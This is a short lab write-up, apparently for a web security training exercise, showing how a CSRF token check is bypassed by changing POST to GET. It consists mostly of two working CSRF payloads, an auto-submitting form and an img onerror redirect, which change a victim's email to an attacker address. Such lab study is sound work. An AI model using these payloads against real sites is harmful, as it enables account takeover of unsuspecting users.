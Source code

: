# Lab: CSRF where token validation depends on request method


The check to verify the csrf token can be bypass if you change the request method. (POST to GET)


## payload 1
```html

<form id="mon-formulaire" name="change-email-form" action="https://MYLAB.web-security-academy.net/my-account/change-email" method="GET">
    <input required type="email" name="email" value="wieneristheboss@evil.corp.com">
    <button class='button' type='submit'> Update email </button>
 </form>

<script>
    let formulaire = document.getElementById("mon-formulaire");
    formulaire.submit();
</script>

```
## payload 2 via img tag

```html

<img src=x onerror=document.location="https://MYLAB.web-security-academy.net/my-account/change-email?email=jey@evil.heheh.com">

```


